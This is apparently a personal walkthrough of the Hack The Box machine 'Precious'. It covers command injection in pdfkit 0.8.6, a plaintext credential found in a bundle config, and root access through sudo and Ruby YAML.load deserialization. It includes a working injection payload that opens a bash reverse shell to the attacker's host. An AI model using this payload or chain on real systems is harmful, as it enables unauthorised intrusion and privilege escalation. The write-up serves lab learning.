 ```yaml
---
title: "Hack The Box - Precious [Easy]"
date: 2023-03-12T19:42:27+03:00
draft: false
description: 
---
```


We begin with a simple web page that has an input, apparently this input turns a webpage to a PDF, I tried with hosting a page on my machine and tried to use it for the input. 

Then the website provided me with a PDF of the website that I've hosted, I've downloaded the PDF and used the `exiftool` to figure out what was generating this PDF file, from there I saw that it was generated by `pdfkit v0.8.6`. 

I went to google to check if there are any exploits and I found this:
- https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

This apparently gives me a command injection exploit, and I tried the following payload:

```
http://myip:8080/?name=#{'%20`bash -c "bash -i >& /dev/tcp/myip/myport 0>&1"`'}
```

# Flag 1

This gave me a reverse shell for the user `ruby`, from this point I've run `linpeas.sh` to check how can I gain access to the user `henry` and I saw the file `/home/ruby/.bundle/config` and I went to check it.

```
$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:<passwod>"

```

I gained access to the user with an ssh login to the `hnery` user and gained the `user.txt` flag located in the home directory.

# Flag 2

```sh
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

This gives the clue of how to get the next flag, let's look what this file contains:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

We have `YAML.load(File.read("dependencies.yml"))` which hints that we need to use the `dependancies.yml` file to gain root. 

Using google again to see how can we do that, this took me some time, but figuring out the attack surface is what is this all about. The attack surface is being the YAML loader, so I've tried to look for exploits there, and I found this:
- https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/

I executed the `/usr/bin/ruby /opt/update_dependencies.rb` command with sudo and then using the `bash -p` I gained the root access. 